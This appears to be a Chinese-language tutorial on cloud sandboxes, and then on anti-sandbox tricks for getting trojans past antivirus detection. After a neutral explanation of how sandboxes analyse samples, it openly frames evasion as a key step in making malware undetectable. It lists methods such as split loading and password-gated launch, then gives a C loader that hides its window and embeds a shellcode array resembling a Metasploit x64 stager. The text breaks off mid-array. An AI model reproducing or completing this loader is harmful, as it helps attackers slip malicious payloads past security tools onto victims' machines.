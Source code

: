 # 1.什么是沙箱

## 1.1云沙箱的背景

随着互联网的发展，网络安全问题也日益严峻。恶意软件、网络攻击等威胁不断涌现，给个人用户和企业带来了巨大的损失。为了解决这一问题，云沙箱技术应运而生。

**云沙箱是一种基于*虚拟化技术*的安全防护机制，主要用于对可疑文件、恶意代码进行分析和检测。**其原理是通过在云端建立隔离的虚拟环境，将待分析的文件或代码运行在这个环境中，以模拟真实的操作系统和网络环境。通过监控和分析其行为，发现并识别其中的恶意行为。

## 1.2云沙箱的工作流程

1. 提交样本：用户将怀疑存在恶意的文件或代码提交给云沙箱系统。这些样本可能是通过电子邮
件、下载或其他途径获得的。
2. 环境隔离：云沙箱系统将待分析的样本运行在隔离的虚拟环境中。这个虚拟环境与真实的操作系
统和网络环境相似，但是与真实系统完全隔离，以防止样本对真实系统的伤害。
3. 动态行为分析：在虚拟环境中，云沙箱系统监控样本的行为和操作。它记录样本的文件操作、注
册表修改、网络连接等行为，并生成行为日志。
4. 恶意行为检测：云沙箱系统使用各种检测技术来分析样本的行为日志，以确定其中是否存在恶意
行为。这些技术包括基于特征的检测、行为模式分析、机器学习等。
5. 报告生成：云沙箱系统根据分析结果生成报告。报告中包含样本的基本信息、行为日志、恶意行
为检测结果等。这些报告可以帮助用户了解样本的威胁程度和行为特征。

# 2.为什么要反沙箱

反沙箱是木马免杀中极为重要的一个步骤, **大部分杀软本地都会有一个内置的沙箱/或者云上沙箱,当我们想要运行一个exe时,都会在沙箱中模拟运行, 进行检测**

那么如何进行反沙箱呢?

思考云沙箱和真实环境的差异, 或者是云沙箱针对你当前的环境的差异, 针对性的反沙箱

# 3.反沙箱的方法

## 3.1分离加载

本地或者网络, 参考之前

## 3.2参数启动

指的是在启动exe的时候, 通过命令行的参数启动, 推荐参数一定要是强参数

```
main.exe password
```

示例

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗口

unsigned char sc[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
```